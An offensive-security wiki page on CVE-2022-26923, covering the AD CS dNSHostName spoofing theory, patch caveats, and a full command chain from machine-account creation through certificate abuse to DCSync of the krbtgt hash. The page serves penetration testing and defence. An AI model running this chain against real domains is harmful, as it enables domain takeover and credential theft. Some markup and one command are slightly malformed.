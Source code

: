 ```yaml
---
description: CVE-2022–26923
---
```


# dNSHostName spoofing

## Theory

{% hint style="warning" %}
_A security patch was released on **May 2022**, but there is still some case where the exploit still work_
{% endhint %}

By default, domain computers can enroll in the `Machine` certificate template which allow for client authentication. 
This means that the issued certificate can be used for authentication against the KDC using `PKINIT`. 

In order to enroll, the machine account need a dNSHostName attribute and this will be used as certificate subject.

By default, the dNSHostName of a machine account match with its sAMAccountName, but no validation process exist to make sure of it. More, it's possible to have several computer account with the same dNSHostName property.

An attackers could exploit that to impersonate any computer on the domain, domain controller included.

## Practice

### Machine Account

The ability to edit a machine account's `dNSHostName` and `servicePrincipaleName` attributes is a requirement to the attack chain.
The easiest way this can be achieved is by creating a computer account 
(e.g. by leveraging the [MachineAccountQuota](../domain-settings/machineaccountquota.md) domain-level attribute if it's greater than 0). 
The creator of the new machine account has enough privileges to edit its attributes. 
Alternatively, taking control over the owner/creator of a computer account should do the job.

`AD CS` should be installed on the domain and a certificate that allow client authentication and where machine account could enroll is also required. 
By default, the `Machine` template match with these requirements 

The attack can then be conducted as follows.

1. Clear the controlled machine account `servicePrincipalName` attribute of any value that points to its DNS Host Name (e.g. `host/machine.domain.local`, `RestrictedKrbHost/machine.domain.local`)
2. Change the controlled machine account `dNSHostName` to a Domain Controller's DNS Host Name (e.g. `DC01.domain.local`)
3. Request a certificate for the controlled machine account
4. Get access to the domain controller (i.e. [DCSync](../credentials/dumping/dcsync.md))

{% hint style="warning" %}
Some of the tools and features that allow exploitation of these vulnerabilities are still in development

* Impacket's editMachineAttribute: TODO

* {% endhint %}

% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, the steps mentioned above can be conducted with

* [krbelayx](https://github.com/dirkjanm/krbrelayx)'s (Python) addspn script for the manipulation of the computer's SPNs
* [Impacket](https://github.com/SecureAuthCorp/impacket)'s (Python) scripts (addcomputer, editMachineAttribute, secretsdump) for all the other operations

```bash
# 0. create a computer account
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

# 1. clear its SPNs
addspn.py --clear -t 'ControlledComputer$' -u 'domain\user' -p 'password' 'DomainController.domain.local'

# 2. rename the computer (computer -> DC)
editMachineAttribute.py -t 'ControlledComputer$' -attribute 'dNSHostName' -v 'DomainController.domain.local' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

# 3. Request a certificate
certipy req 'domain.local/ControlledComputer$:ComputerPassword@DomainController.domain.local' -ca 'ca_name' -template 'certificate template'

# 4. Get the Domain Controller NT Hash
certipy auth -pfx certificate.pfx -dc-ip DomainController.domain.local

# 6. DCSync by presenting the service ticket
secretsdump.py -just-dc-user 'krbtgt' --hashes :HashNT -'DomainController$'@'DomainController.domain.local'
```
{% hint style="success" %}
When using [Impacket](https://github.com/SecureAuthCorp/impacket)'s addcomputer script for the creation of a computer account, the "SAMR" method is used by default (instead of the LDAPS one). At the time of writing (14th of May 2022), the SAMR method creates the account without SPNs, which allows to skip step #1.
{% endhint %}
{% endtab %}


![](<../../../.gitbook/assets/dnshostname_spoofing.png>)

## Patch

The vulnerability was patched as part of the **May 2022 Security Update**. Microsoft introduce a new Object ID (OID) in new certificates.
This is done by embeding the user's `objectSid` (SID) within the certificate. 

Certificate with the new `CT_FLAG_NO_SECURITY_EXTENSION` (`0x80000`) flag set in the `msPKI-Enrollment-Flag` will **not** embed the new Object.
These template are **still vulnerable** to this scenario.

More, the `Validated write to DNS host name` permission now only allows setting a `dNDHostName` attribute that match the `sAMAccountName` of the account.
However, with a `generic Write` permission over the computer account, it's still possible to create a duplicate `dNSHostName` value.

An attempt to exploit the vulnerability against a patched domain controller will return `KDC_ERR_CERTIFICATE_MISMATCH` during Kerberos authentication